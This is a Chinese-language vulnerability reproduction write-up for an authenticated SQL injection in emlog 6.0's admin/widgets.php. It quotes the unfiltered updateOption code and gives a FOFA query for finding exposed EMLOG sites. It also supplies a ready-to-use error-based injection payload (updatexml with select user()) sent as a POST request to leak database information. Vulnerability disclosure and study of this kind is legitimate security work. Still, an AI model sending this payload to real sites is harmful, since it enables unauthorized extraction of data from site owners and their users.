 # emlog widgets.php 后台SQL注入漏洞

## 漏洞描述

emlog widgets.php文件在登录后通过构造特殊语句导致SQL注入，获取数据库敏感信息

## 漏洞影响

```
emlog 6.0
```

## FOFA

```
app="EMLOG"
```

## 漏洞复现

产品主页：https://github.com/emlog/emlog

![image-20220518160707766](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181607870.png)

存在漏洞的文件为 `admin/widgets.php`

![image-20220518160725472](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181607539.png)

```
if ($action == 'compages') {
    $wgNum = isset($_POST['wgnum']) ? intval($_POST['wgnum']) : 1;//侧边栏编号 1、2、3 ……
    $widgets = isset($_POST['widgets']) ? serialize($_POST['widgets']) : '';
    Option::updateOption("widgets{$wgNum}", $widgets);
    $CACHE->updateCache('options');
    emDirect("./widgets.php?activated=true&wg=$wgNum");
}
```

传参为 wgnum 和 widgets ，跟踪方法 `updateOption`

![image-20220518160743259](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181607343.png)

```
static function updateOption($name, $value, $isSyntax = false){
        $DB = Database::getInstance();
        $value = $isSyntax ? $value : "'$value'";
        $DB->query('UPDATE '.DB_PREFIX."options SET option_value=$value where option_name='$name'");
    }
```

可以发现对传入的参数木有进行过滤，构造Payload

```
POST /admin/widgets.php?action=compages

widgets=1' and updatexml(0x3a,concat(1,(select user())),1)-- 
```

调试后可以发现，数据库报错语句会回显至页面中，报错注入即可获取敏感信息

![image-20220518160810251](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181608308.png)

![image-20220518160826819](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181608878.png)